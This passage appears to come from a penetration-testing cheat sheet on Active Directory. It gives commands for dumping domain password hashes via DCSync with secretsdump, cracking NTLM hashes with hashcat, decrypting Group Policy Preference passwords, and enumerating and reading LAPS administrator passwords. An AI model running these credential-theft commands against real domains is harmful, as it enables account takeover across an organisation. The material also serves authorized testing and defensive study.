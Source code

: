 - Replicating directory changes.
- Replicating directory changes all.
- Replicating directory changes in filtered set.

`python3 /opt/impacket/examples/secretsdump.py -just-dc <domain>/<user>@<ip address>` - Dump NTDS data you can use `-just-dc-ntlm` instead of `-just-dc` to only dump NTLM hashes.
`hashcat -m 1000 -a 0 <path to ntlmhashes file> <path to wordlist>` - Crack ntlm hashes.

## Local Administrator Password Solution (LAPS)

##### Group Policy Preferences (GPP)

Microsoft implemented a method to change password of local Administrator accounts across workstations using GPP.

GPP allows administrators to create domain policies with embedded credentials. Once a GPP is deployed, different XML files are created in the SYSVOL directory, which is an essential component of AD and creates a shared directory on an NTFS volume, that all authenticated domain users can access with reading permissions.

The XML files contained a password encrypted using AES-256, which Microsoft somehow published its private key on [MSDN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN), so it's very easy to decrypt the stored passwords with tools such as [Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1).

##### Local Administrator Password Solution (LAPS)

In 2015 Microsoft removed the storing passwords in the SYSVOL folder, which introduced LAPS, which offers a much more secure approach for remotely managing the local administrator password.

The new method includes two new attributes of computer objects in the AD. The `ms-mcs-AdmPwd` attribute contains a clear-text password of the local administrator while the `ms-mcs-AdmPwdExpirationTime` contains the expiration time to reset the password. LAPS uses admpwd.dll to change the local administrator password and change the value of `ms-mcs-AdmPwd`.

##### Enumerate for LAPS

`dir "<admpwd.dll directory's path>"` - Check if LAPS is installed by checking the path of the file, usually `C:\Program Files\LAPS\CSE`.
`Get-Command *AdmPwd*` - From Powershell check the available commands for `AdmPwd` cmdlets.
`Find-AdmPwdExtendedRights -Identity *` - Find which AD OU has the "All extended rights" attribute that deals with LAPS, it will output the groups with that attribute.
`net group "<group>"` and `net user <user>` - Check the group and its members.

##### Getting the Password

In order to get the LAPS password we need to compromise or impersonate the found user. After compromising the right user, we can get the LAPS password using `Get-AdmPwdPassword` cmdlet by providing the target machine with LAPS enabled:

`Get-AdmPwdPassword -ComputerName <computer name>`

Most of the time LAPS will only be enabled on specific machines, so you will need to enumerate the right target machine and user, one script to help with that is the [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) Powershell script.
